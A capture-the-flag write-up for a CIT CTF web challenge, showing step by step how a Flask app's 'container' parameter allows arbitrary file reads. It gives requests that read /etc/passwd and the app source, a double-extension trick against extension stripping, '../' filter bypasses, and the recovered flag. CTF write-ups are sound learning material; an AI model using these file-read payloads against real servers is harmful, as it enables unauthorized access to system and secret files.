


# How I Parsed your JSON

[](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=265 "How I Parsed your JSON (CIT CTF)")

## Description

> "This is the story of how I defined your schema."
>
> The flag is in secrets.txt

## Solution

We are greeted by a `FlaskMyAdmin` page, providing some basic instructions. First, we can make basic queries where the URL looks like `http://23.179.17.40:58004/select?record=*&container=tasks`.



Secondly, we have some `Getting Started` instructions.

1. Create a directory called containers
2. Create a file named after your table name (do not include .json)
3. Add your data in valid JSON format

Sounds like we need to modify the URL to create a directory first. I tried some different endpoints and request methods but it all failed. Maybe we can just read files?

```
http://23.179.17.40:58004/select?record=*&container=/etc/passwd
```




Yep! So we can try the `secrets.txt`.

```
http://23.179.17.40:58004/select?record=*&container=secrets.txt
```


However, it shows `"Invalid query"`, which is probably due to comment on the page `"File extensions will be removed from queries"`.

First, I simply try two extensions, assuming that the first may be stripped but not the second. Actually, it looks good! The output shows `"Results from secrets.txt"` now, rather than `"Results from secrets"`. It still says `"Invalid query"` though 🤔

Maybe we should look for other important files. It's a Flask app, so let's try some common ones. Remember the double extension: `/app/app.py.py`

```python
from flask import Flask, render_template, request
import json
import os

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/select')
def select():
    container_name = request.args.get('container')
    record_name = request.args.get('record')

    container_name = clean_container_name(container_name)
    container_path = os.path.join('containers/', container_name)

    try:
        with open(container_path, 'r') as container_file:
            if record_name == '*':
                return_data = container_file.read()
            else:
                json_data = json.load(container_file)
                return_records = [entry.get(record_name) for entry in json_data if record_name in entry]
                return_data = ''.join(f'{r}, ' for r in return_records)[:-2]
    except:
        return_data = 'Invalid query.'

    return render_template('index.html', data=return_data, container=container_name)

def clean_container_name(n):
    n = os.path.splitext(n)[0]
    n = n.replace('../', '')
    return n

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0')
```


Notice the code for stripping file extensions and replacing `../`, we can easily bypass that with URL-encoding (`%2e%2e%2f`) or even `..//`

We don't need to though, the flag is in `/app/secrets.txt.txt`

Just visit `http://23.179.17.40:58004/select?record=*&container=/app/secrets.txt.txt`

Flag: `CIT{235da65aa6444e27}`
